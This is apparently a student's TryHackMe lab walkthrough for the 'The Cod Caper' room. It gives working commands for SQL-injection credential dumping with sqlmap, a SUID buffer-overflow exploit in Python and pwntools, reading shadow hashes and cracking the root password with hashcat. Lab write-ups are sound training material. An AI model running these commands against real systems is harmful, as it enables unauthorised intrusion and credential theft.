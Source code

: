 # Matheus Jesus 12-04-2020

## Try Hack Me - [The Cod Caper](https://tryhackme.com/room/thecodcaper)

### IP 10.10.109.156

#### Recon

nmap -sC -sV -oN nmap_initial 10.10.109.156

SSH and WebServer found
port 22 port 80

#### Web Enumeration

```sh
gobuster dir -u http://10.10.109.156:80 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt
```

Found route
/administrator.php (Status: 200)

#### SQLMap for trying to find the administrator user / hash

sqlmap -u 10.10.109.156/administrator.php --forms

database is a MySQL.

sqlmap -u 10.10.109.156/administrator.php --dump --forms

copied user.csv file to local.

found user pingudad:secretpass

#### Access administrator

It is possible to run commands now

cat /etc/passwd to see if pingu user still exists

find / -user pingu to see everything owned by pingu

found id_rsa -> /home/pingu/.ssh/id_rsa
USELESS!!!!!!

find / -name pass

found /var/hidden/pass
pingu:pinguapingu

#### Remote Acess

ssh pingu@10.10.109.56

scp /opt/linEnum/linEnum.sh pingu@10.10.109.56:/dev/shm
chmod +x linEnum.sh
./linEnum.sh

#### SUID

/opt/secret/root

##### Manually

gdb /opt/secret/root
disassemble shell

shell memory address 0x080484cb

invert bytes to little indian -> call root.
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root

##### Scripting

```python
from pwn import *
proc = process('/opt/secret/root')
elf = ELF('/opt/secret/root')
shell_func = elf.symbols.shell
payload = fit({
44: shell_func # this adds the value of shell_func after 44 characters
})
proc.sendline(payload)
proc.interactive()
```

in both ways we get papa's hash

papa:$1$ORU43el1$tgY7epqx64xDbXvvaSEnu.:18277:0:99999:7:::
root:$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:18277:0:99999:7:::

hashcat -m 1800 -a 0 -o found1.txt  $6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck /usr/share/wordlists/rockyou.txt --force

$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:love2fish
